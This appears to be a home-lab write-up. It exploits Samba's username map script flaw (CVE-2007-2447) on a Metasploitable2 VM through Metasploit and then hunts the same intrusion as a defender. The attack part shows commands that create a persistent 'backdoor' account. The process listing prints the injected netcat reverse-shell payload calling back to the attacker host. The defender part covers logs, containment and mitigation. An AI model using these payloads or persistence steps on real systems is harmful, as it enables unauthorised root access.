# 04 - Samba usermap_script Command Execution (CVE-2007-2447)

> Exploiting a command injection flaw in Samba's username map script feature to gain root and establish persistence, then investigating the same incident from the defender's side.


---

## Part 1: Attack

Structured around the Cyber Kill Chain (see [frameworks/cyber-kill-chain.md](../../../frameworks/cyber-kill-chain.md)).

### Objective

Exploit the Samba `username map script` command injection vulnerability to gain root access on Metasploitable2, and establish persistence to demonstrate the full range of what root access enables.

### Reconnaissance

Port 139/445 was already identified in [01-reconnaissance.md](01-reconnaissance.md) as running Samba smbd 3.0.20-Debian, flagged as a medium priority target with a known RCE (CVE-2007-2447).

### Weaponization

Searching Metasploit for `samba` returned many modules. The one matching this target's exact version range (3.0.20 to 3.0.25rc3) is `exploit/multi/samba/usermap_script`, rank Excellent, disclosed 2007-05-14. Other listed modules (`nttrans`, `trans2open`, `chain_reply`, `is_known_pipename`) were ruled out because they target different Samba version ranges or rely on memory corruption, which carries a lower reliability rank than a straightforward command injection.



Running `info` on the module before use confirmed the version range, the lack of any authentication requirement, and the primary reference (CVE-2007-2447):




### Delivery

The module was selected with `use exploit/multi/samba/usermap_script`. Its default payload is `cmd/unix/reverse_netcat`, simpler than the staged Meterpreter payload used in the vsftpd exercise, it opens a direct reverse shell via netcat rather than downloading a separate binary.



`RHOSTS` was set to the target (192.168.10.20) and `LHOST` to the attacking Kali machine (192.168.10.10), confirmed with `get`:



### Exploitation

Running `exploit` triggered the vulnerability and opened a command shell session:

```
[*] Started reverse TCP handler on 192.168.10.10:4444
[*] Command shell session 1 opened (192.168.10.10:4444 -> 192.168.10.20:57834) at 2026-08-22 15:36:37 -0400
```

The mechanism behind that single command is worth spelling out, since it explains why this works with no valid credentials at all. Samba's `username map script` option runs an external script to translate a client-supplied username into a Unix account, and it does this as part of resolving *who to check credentials against*, before authentication succeeds or fails. The client-supplied username is passed into that script invocation without sanitization. Metasploit's module abuses this by sending a username containing shell metacharacters (backticks, in this case), so instead of being treated as an inert string, part of the "username" is executed as a shell command by the script's own `/bin/sh -c` invocation. The module's own `info` output already states this plainly: authentication is not needed, because the script runs during username mapping, a step that happens prior to authentication.

The resulting shell is unstructured (no terminal emulation), arrow keys and other control sequences are sent as literal text and produce `command not found` errors rather than doing anything useful. Plain commands work normally.

### Installation

To demonstrate persistence, a new local account was created directly from the root shell:

```bash
useradd -m -s /bin/bash backdoor
echo "backdoor:senha123" | chpasswd
```

Both commands succeed silently. Confirmed against `/etc/passwd`:



This account would let an attacker regain access later via SSH, without needing to exploit Samba again.

### Command and Control

The reverse shell itself is the control channel: `netcat` connecting from the target back to 192.168.10.10:4444, established the moment the exploit ran and confirmed still active later during the defensive investigation (see Part 2).

### Actions on Objectives

Root access was confirmed directly from the shell:



```
whoami
root
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

### MITRE ATT&CK Mapping

| Tactic | Technique | Technique ID |
|---|---|---|
| Initial Access | Exploit Public-Facing Application | T1190 |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 |
| Persistence | Create Account: Local Account | T1136.001 |
| Command and Control | Ingress Tool Transfer (netcat reverse channel) | T1105 |

### Impact Observed

- Root-level remote code execution on the target, no authentication required
- A standing backdoor account (`backdoor`, UID 1003) with a set password, independent of the original vulnerability
- An active reverse shell connection at the time of exploitation
- Target confirmed as Ubuntu with kernel 2.6.24-16-server, unsupported for well over a decade, consistent with the rest of the environment

---

## Part 2: Defense (Threat Hunting)

Follows the shape of the NIST incident response lifecycle.

### Trigger

A colleague who also uses this network reported that, earlier this morning, they tried to access the Metasploitable2 file share over Samba to grab a document, and the connection took longer than usual. After finally connecting, they vaguely recall something scrolling past in a terminal window while they waited, but couldn't say what. They are not technical, so it may have been nothing.

### Investigation

The report pointed at Samba specifically, so that was the starting point.

**Samba's own logs.** Samba keeps a separate log file per connecting client (`log.%m` in its config). Listing `/var/log/samba/` showed a file named after the attacking machine's IP:

```
log.192.168.10.10  log.nmbd  log.smbd
```

Its existence alone confirms a connection attempt from that IP occurred, independent of content. Its content, however, was empty:



```
-rw-r--r-- 1 root root 0 2026-08-22 15:34 log.192.168.10.10
```

Checking why: `grep -i "log level" /etc/samba/smb.conf` returned nothing, meaning no explicit log level is configured, so Samba falls back to its minimal default. The general daemon logs (`log.smbd`, `log.nmbd`) were also checked and show only service start events, no connection-level detail for anyone, not just this IP. That consistency across every log file, not just the one tied to this specific connection, supports insufficient logging configuration as the explanation, rather than someone selectively clearing one file.

**System authentication log.** `/var/log/auth.log` records privileged commands and account changes. A first pass surfaced an entry that looked interesting but turned out to be a false lead: a `sudo cat log.192.168.10.10` command, that was this investigation's own activity moments earlier, not the incident. Filtering that out and continuing through the file surfaced the actual finding:



```
Aug 22 15:53:58 metasploitable useradd[4905]: new group: name=backdoor, GID=1003
Aug 22 15:53:58 metasploitable useradd[4905]: new user: name=backdoor, UID=1003, GID=1003, home=/home/backdoor, shell=/bin/bash
```

A local account named `backdoor` was created directly on the system, not through any expected administrative process.

**Account details.** Cross-checked against `/etc/passwd`, `/etc/shadow`, and `/etc/gshadow`:





The account has an active password hash. Notably, that hash (`tyEI3PAGkGJRA`, 13 characters, no `$1$` prefix) uses the older DES-based crypt format, while every other account on the system uses the modern MD5 format (`$1$...`). This is itself a secondary anomaly, a legitimate administrator provisioning a new account through normal tooling would be expected to produce a hash consistent with the rest of the system.

**Running processes.** `ps aux` revealed the exploitation mechanism directly:



```
root  4847  ...  15:34  sh -c /etc/samba/scripts/mapusers.sh "/=`nohup mkfifo /tmp/ltfb; nc 192.168.10.10 4444 0</tmp/ltfb | /bin/sh >/tmp/ltfb 2>&1; rm /tmp/ltfb`"
root  4850  ...  15:34  nc 192.168.10.10 4444
root  4851  ...  15:34  /bin/sh
```

`/etc/samba/scripts/mapusers.sh` confirms the vulnerable `username map script` option was configured and in use, independent of the earlier `smb.conf` grep. The quoted command is the injected payload itself: a named pipe wired to a netcat connection back to 192.168.10.10 on port 4444, feeding a shell.

**Network connections.** `netstat -antp` confirmed the same connection still active at the network layer:



```
tcp  192.168.10.20:139   192.168.10.10:46083  CLOSE_WAIT
tcp  192.168.10.20:57834 192.168.10.10:4444   ESTABLISHED
```

### Findings

- **Who**: the activity originated from 192.168.10.10.
- **What**: exploitation of Samba's `username map script` command injection vulnerability, resulting in root remote code execution, followed by creation of a persistent local account (`backdoor`) and an active reverse shell.
- **Where**: the Samba service (port 139) on this host.
- **Why**: the `username map script` feature was configured and enabled, and it passes unsanitized client-supplied usernames to a shell, a known issue tracked as CVE-2007-2447. Insufficient logging (no explicit log level set) meant this activity was not clearly visible in Samba's own logs, though it was fully reconstructable from system-level logs and running state.
- **When**: initial connection and exploitation around 15:34, backdoor account created at 15:53:58, both confirmed active at the time of investigation.

Confidence is high. Multiple independent sources (auth.log, account files, process list, network state) corroborate the same timeline and the same conclusion.

### Containment

The first instinct for many defenders would be to block the attacker's IP address at the firewall. It is worth naming that instinct here specifically, because it is a common first response, and also why it does not actually solve the problem: an IP address is not a strong identity. In this lab, the same attacker could simply reassign the Kali VM a new address and repeat the identical attack seconds later. In a real network this is even easier, NAT, proxies, VPNs, or a freshly compromised host all defeat IP-based blocking without any real effort. Blocking an IP buys, at best, a short delay, not containment.

The same reasoning applies to just deleting the `backdoor` account and stopping there. That only cleans up one artifact of the compromise. The vulnerability that created it, the `username map script` configuration, is still present, and can be re-exploited to recreate the same persistence, or a different one, within minutes.

What actually contains this incident is removing the capability, not reacting to one instance of its use:

- Disable the `username map script` option in Samba's configuration, or take the Samba service offline entirely if it is not immediately needed, and restart the service. This closes the exploitation path itself, regardless of which address an attacker connects from next.
- Kill the active `nc` and `sh` processes tied to the current session (PIDs 4847, 4848, 4850, 4851 in this investigation). This stops the specific ongoing session, but only as a companion to disabling the vulnerable option above, not as a substitute for it.
- Replace IP blocklisting with an allowlist at the firewall: restrict which hosts are permitted to reach the Samba service at all, based on legitimate business need, rather than blocking specific bad actors after the fact. An allowlist stays effective as an attacker's address changes, a blocklist does not.

### Recovery

- Remove the `backdoor` account and its home directory entirely
- Audit all other accounts on the system for similarly irregular creation dates or password hash formats
- Reconfigure or patch Samba, removing the vulnerable `username map script` setup rather than just removing the malicious account
- Treat any credentials that existed on this host as potentially exposed and rotate them
- Restore from a known-clean snapshot if the extent of tampering cannot be fully verified

### Detection

No Sigma rule has been written yet for this specific pattern. Two strong candidates for a future rule, based on what this investigation actually found:

- A `useradd` event creating an account outside of expected administrative activity or naming convention
- A process tree originating from `smbd`, spawning `sh -c` with a Samba script path, in turn spawning `nc` to an external address

Everything above is host-based evidence, and it is worth being explicit about what that means: it was only recoverable because the attacker did not bother to clean up after themselves. A more careful intrusion could delete or edit `auth.log`, avoid dropping files with recognizable names, or use fileless techniques that never touch disk in a way `ps aux` or `/etc/passwd` would show. None of the evidence in this exercise would survive that.

The layer this exercise did not have is network-based detection ahead of the compromise: a packet capture or an SMB-aware IDS/IPS on the wire could have flagged the malicious username inside the SMB Session Setup request itself, before the script ever ran. That is a genuinely earlier detection point than anything host-based can offer, since it does not depend on the attacker's actions on the host at all. This exercise did not capture that traffic, and it is worth naming as a real gap rather than skipping it, not because the tooling did not exist, but because continuous full packet capture on every service is expensive and was not part of this lab's setup.

The deeper answer to "what if the attacker tampers with the host evidence" is not a better host-based tool, it is not trusting the host at all: shipping logs to a separate system in real time, so a compromise after the fact cannot retroactively erase what was already recorded elsewhere. This lab already attempted exactly that, a Wazuh SIEM receiving Metasploitable2's logs over syslog, and got the pipeline working end to end before deferring the project over a host hardware constraint, not a design flaw. See [wazuh-siem-attempt.md](../wazuh-siem-attempt.md) for the full account. Revisiting that attempt, rather than adding more host-based tooling, is the real next step for closing this gap.

### Mitigation and Prevention

- Patch or upgrade Samba; version 3.0.20 has been unsupported for well over a decade
- Disable the `username map script` option unless it is actually required, and if it is, ensure input is sanitized
- Set an explicit, non-minimal `log level` in `smb.conf`, the default logging on this system was not sufficient to independently confirm the incident
- Restrict Samba access to trusted network segments only
- Monitor and alert on local account creation events, especially outside change-management windows
- Run services with the minimum privilege necessary, this vulnerability's impact is maximized specifically because smbd was running as root

---

## Conclusion

### Diamond Model

| Vertex | This incident |
|---|---|
| Adversary | The operator at 192.168.10.10 |
| Capability | Command injection via Samba's `username map script` (CVE-2007-2447), delivered through Metasploit, followed by local account creation for persistence |
| Infrastructure | The Kali host itself, doubling as both the exploit delivery point and the reverse shell listener on port 4444 |
| Victim | Metasploitable2's Samba service (192.168.10.20:139) |

The four vertices connect in the simplest possible shape for this incident: one adversary, one piece of infrastructure, one capability, one victim. Nothing here involves a broader campaign, shared infrastructure, or multiple stages of adversary tooling, which is itself worth stating plainly rather than implying a complexity that was not present.

### Pyramid of Pain

Ranking what this investigation actually recovered, from the top of the pyramid (hardest for an attacker to change) down to the base (easiest):

| Indicator | Example from this incident | Cost to the attacker of losing it |
|---|---|---|
| TTPs | Injecting shell metacharacters into an authentication field that gets passed unsanitized to an external script | High, this is the actual technique, and it is not specific to Samba, it applies to any interface that passes unsanitized input to a shell |
| Tools | The Metasploit module and its `reverse_netcat` payload | Moderate, a different exploit framework or a hand-written payload still achieves the same result |
| Host artifacts | The `backdoor` account name, the `/tmp/ltfb` named pipe | Cheap, renaming things costs the attacker almost nothing |
| IP addresses | 192.168.10.10 | Trivial, already covered in Containment, a new address defeats this instantly |
| Hash values | The `backdoor` account's password hash | Trivial, a new password costs nothing to set |

This is why the Containment section above rejects IP blocking and the Mitigation section leads with disabling or sanitizing the vulnerable script rather than just removing the backdoor account: both choices deliberately target the top of this pyramid, where denial actually costs the attacker something, instead of the base, where it costs them nothing.

---

## Notes / Open Questions

- The false lead in `auth.log` (mistaking this investigation's own `sudo cat` command for suspicious activity) is kept in the writeup deliberately, it is a realistic and common investigative mistake, not just a data point in favor of the "real" finding.
- The weaker password hash format on the `backdoor` account (DES-style versus the system's usual MD5) was not something this exercise set out to create, it is a side effect of using `chpasswd` without specifying an algorithm. It turned out to be a useful secondary anomaly for the investigation, worth remembering as a real detection signal in future exercises.
- Next exercise: ARP poisoning / MITM, or another item from ROADMAP.md's Hands-On Labs section.
